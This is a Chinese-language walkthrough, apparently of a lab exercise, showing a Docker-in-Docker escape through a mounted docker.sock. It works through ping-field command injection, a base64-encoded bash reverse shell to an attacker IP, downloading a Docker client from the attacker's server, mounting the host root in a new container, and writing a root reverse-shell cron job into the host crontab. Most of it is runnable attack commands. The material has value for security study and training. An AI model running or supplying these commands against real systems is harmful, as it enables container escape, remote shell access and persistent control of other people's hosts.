DIND (docker-in-docker) exploitation

DIND （docker-in-docker） 漏洞利用


地址：http://192.168.86.139:1231/

知识点：

custom/docker/docker.sock 通常是 Docker 守护进程的 Unix 套接字文件。Docker 守护进程使用套接字来与客户端通信，接受来自客户端的 Docker 命令并管理容器的生命周期等。

在正常的 Docker 安装中，通常使用默认的套接字文件路径 /var/run/docker.sock。但在你的情况下，你使用了一个自定义路径 custom/docker/docker.sock。这可能是为了满足一些特殊需求或者是出于安全性或其他目的。

1、有了这个，我们在dcoerk容器中，可以通过这个和宿主机的docker进行通信，下发一个带有特权的docker到宿主机\[也就是真实机器\]，然后逃逸



发现是执行的Ping，这个时候我们可以使用linux管道符



 

mount命令查看当前挂载的文件系统信息

127.0.0.1 \| mount



发现存在docker.sock

127.0.0.1 \| ls -lah /custom/docker/docker.sock

挂载Docker Socket逃逸

开始逃逸

1、需要在目前机器需要挂载了docker.sock

2、目标机器需要安装docker

 

127.0.0.1 \| wget <https://download.docker.com/linux/static/stable/x86_64/docker-18.09.9.tgz> -O /tmp/docker-18.09.9.tg

127.0.0.1 \| ls /tmp



 

 

 

 

解压文件到指定目录

127.0.0.1 \| tar -xvzf /tmp/docker-18.09.9.tg -C /tmp/

这个不知道为什么会解密失败[后面发现是下载这个包出现的问题]

这个时候我们反弹shell

在线生成反弹shell:

<https://taoyuan.cool/shell/>

 

但是又遇到一个问题

```shell
bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1
```

命令带有空格，某些字符会被转义，这个时候我们可以使用先base64编码在执行

```shell
echo 'bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1' \| base64
```



执行下面命令

127.0.0.1 \| echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljg2LjIxOC8zMzMyIDA+JjEK" \| base64 -d \| bash



python3 -m http.server 80

起一个http环境，我们把安装包上传上去

<https://download.docker.com/linux/static/stable/x86_64/docker-18.09.9.tgz>

这个实在的话，需要根据你实在机器选择版本，不然会报错



下载：wget <http://192.168.86.218/docker-18.09.9.tg>

 

解压

```shell
tar -zxf docker-18.09.9.tg

cd /docker

chmod +x docker

./docker -H unix:///custom/docker/docker.sock images
```



成功主机docker容器\[逃逸成功\]

下发一个挂载真实机器目录的docker

```shell
./docker -H unix:///custom/docker/docker.sock run -d -v /:/host ubuntu tail -f /dev/null  
```




查看正在运行的容器：

```shell
./docker -H unix:///custom/docker/docker.sock ps
```

【因为我这里测试，所以有两个】



执行命令

```shell
./docker -H unix:///custom/docker/docker.sock exec IMAGE_ID 命令

./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 ls
```



这个host目录就宿主机目录，这个时候我们可以执行反弹shell拿到真实机器权限

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 ls /host
```



查看宿主机计划任务

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 cat /host/etc/crontab
```



 写入计划任务

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 sh -c 'echo "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.218/4444 0\>&1" \>\> /host/etc/crontab'
```



写入成功



拿下node1



 
